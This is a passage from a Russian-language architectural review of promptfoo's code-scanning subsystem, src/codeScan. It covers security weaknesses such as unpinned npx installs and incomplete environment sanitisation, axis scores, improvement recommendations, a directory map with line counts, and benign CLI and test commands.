║    и другие, влияющие на разрешение пакетов: npm_config_registry,         ║
║    npm_config_userconfig, NODE_OPTIONS. Список точечный, а не полный.     ║
║                                                                           ║
║  ✘ npx -y ставит сервер MCP из сети при каждом прогоне без закрепления    ║
║    версии. Флаг -y подавляет подтверждение, версия не зафиксирована.      ║
║                                                                           ║
║  ✘ Подсистема живёт в legacy-runtime — четвёртый случай после             ║
║    evaluator.ts, types и tracing, когда обособленная область              ║
║    формально числится техдолгом.                                          ║
║                                                                           ║
║  ✘ scanner/index.ts на 409 строк держит и разрешение формата вывода,      ║
║    и подготовку конфигурации, и запуск MCP, и обращение к серверу,        ║
║    и вывод, и очистку.                                                    ║
║                                                                           ║
║  ✘ Проверка корня MCP — четвёртая независимая работа с безопасностью      ║
║    путей в репозитории после util/isPathWithinDir, mcp/lib/security       ║
║    в commands и проверок в моделях. Здесь она сведена к isAbsolute        ║
║    и resolve, без разрешения символьных ссылок.                           ║
║                                                                           ║
║  ✘ Указания пользователя (guidance) попадают в промпт сканера, но         ║
║    в правилах не оговорено, что они тоже приходят из репозитория          ║
║    и потому недоверенны наравне с остальным.                              ║
║                                                                           ║
║  ✘ Тесты 2 863 строки против 3 495 строк кода — соотношение 0,8,          ║
║    самое низкое среди разобранных подсистем при самой высокой             ║
║    плотности требований безопасности.                                     ║
╚═══════════════════════════════════════════════════════════════════════════╝
```

### Оценка по осям

```
   Осознанность угроз        ████████████████████░  9/10   11 правил
   Исполнение процессов      ██████████████████░░░  8/10   массивы, но npx -y
   Работа с учётными данными ████████████████████░  9/10   форки явно
   Качество интеграции       ████████████████████░  9/10   SARIF, привязка строк
   Связность модуля          ██████████████░░░░░░░  7/10
   Полнота санитизации       ████████████░░░░░░░░░  6/10   одна переменная npm
   Тестируемость             ████████████░░░░░░░░░  6/10   0,8 к объёму кода
```

---

## 10. Рекомендации по эволюции

```
   1 · Расширить санитизацию окружения до списка.
       Помимо npm_config_before на разрешение пакетов влияют
       npm_config_registry, npm_config_userconfig, npm_config_globalconfig
       и NODE_OPTIONS. Разумнее перейти от чёрного списка к белому:
       собрать окружение дочернего процесса из явно перечисленных
       переменных, а не вычитать опасные из process.env.

   2 · Закрепить версию сервера MCP.
       npx -y @modelcontextprotocol/server-filesystem без версии ставит
       последнюю. Указание точной версии убирает зависимость результата
       прогона от состояния реестра в момент запуска.

   3 · Переиспользовать util/isPathWithinDir для корня MCP.
       Сейчас проверка сведена к isAbsolute + resolve. Общая функция
       (после объединения с mcp/lib/security, см. COMMANDS.md §10)
       добавит разрешение символьных ссылок бесплатно.

   4 · Разбить scanner/index.ts:
         scanRunner       оркестрация
         scanSetup        конфигурация, формат вывода, уровень логирования
         mcpLifecycle     запуск и остановка MCP и моста
       Сейчас один файл держит шесть обязанностей.

   5 · Добавить правило про guidance в AGENTS.md.
       Текст указаний может приходить из файла в репозитории
       (--guidance-file), то есть контролируется PR. В список
       недоверенных источников он формально включён, но отдельного
       требования к его обработке нет — а он попадает прямо в промпт.

   6 · Поднять покрытие тестами.
       Отношение 0,8 к объёму кода при одиннадцати правилах безопасности
       выглядит недостаточным: у большинства подсистем репозитория оно
       выше двух.
```

---

## 11. Карта директории

```
src/codeScan/                 23 файла · 3 495 строк
│
├── AGENTS.md                       ОДИННАДЦАТЬ ПРАВИЛ БЕЗОПАСНОСТИ
├── index.ts                    15  регистрация группы команд code-scans
│
├── commands/
│   └── run.ts                  46  разбор аргументов · ЛЕНИВЫЙ импорт сканера
│
├── config/
│   ├── loader.ts              190  loadConfigOrDefault ·
│   │                               mergeConfigWithOptions · resolveGuidance ·
│   │                               resolveApiHost
│   └── schema.ts               45  ConfigSchema · псевдоним minSeverity ·
│                                   запрет guidance вместе с guidanceFile
│
├── constants/
│   └── filtering.ts            49  DENYLIST_PATTERNS — что не сканировать
│
├── git/                        813
│   ├── diffProcessor.ts       511  обработка изменений
│   ├── diffAnnotator.ts       119  АБСОЛЮТНЫЕ НОМЕРА СТРОК в патч
│   ├── diff.ts                114  getBaseBranch · извлечение изменений
│   ├── rawDiffParser.ts        81  NUL-БЕЗОПАСНЫЙ разбор git diff --raw -z
│   └── metadata.ts             68
│
├── mcp/                        479
│   ├── filesystem.ts          217  spawn массивом · createFilesystemMcpEnv ·
│   │                               маркер готовности · таймаут 30 с
│   ├── transport.ts           190  SocketIoMcpBridge
│   └── index.ts                72
│
├── scanner/                    918
│   ├── index.ts               409  executeScan — оркестрация
│   ├── request.ts             287  buildScanRequest · executeScanRequest ·
│   │                               MAX_CAPACITY_ATTEMPTS 7 ·
│   │                               MAX_MCP_TIMEOUT_ATTEMPTS 2
│   ├── output.ts              167  вывод в трёх форматах
│   └── cleanup.ts              55  CleanupRefs · SIGINT/SIGTERM/SIGQUIT
│
└── util/                       859
    ├── diffLineRanges.ts      294  LineRange · clampCommentLines
    ├── sarif.ts               250  SARIF 2.1.0 · тег точности 'medium' ·
    │                               отпечаток на 160 символов
    ├── github.ts              121  публикация комментариев к PR
    ├── structuredOutputDetect  77
    ├── diffHunkParser.ts       66
    └── auth.ts                 52  пять ступеней · явное поведение для форков

СМЕЖНОЕ
  code-scan-action/         1 290  GitHub Action: main · github · config · auth
                                   разбирает JSON-вывод CLI
  src/types/codeScan.ts       394  схемы находок, серьёзности, ответа сервера

test/codeScans/           14 файлов · 2 863 строки
    config/ · git/ · mcp/ · scanner/ · util/
```

---

## 12. Команды

```bash
promptfoo code-scans run --base main --format sarif
promptfoo code-scans run --diffs-only --min-severity high
promptfoo code-scans run --github-pr owner/repo#123
```

Тесты:

```bash
npx vitest run test/codeScans
npx vitest run test/types/codeScan.test.ts
npx vitest run test/code-scan-action
```

Числа из этого документа воспроизводятся так:

```bash
find src/codeScan -name '*.ts' | xargs cat | wc -l          # 3495
grep -c "^- " src/codeScan/AGENTS.md                        # правила
find test/codeScans -name '*.ts' | xargs cat | wc -l        # 2863
```

---

*Документ описывает `src/codeScan` на коммите `2c140ef`, promptfoo 0.122.0.
Дата среза — 26 августа 2026.*
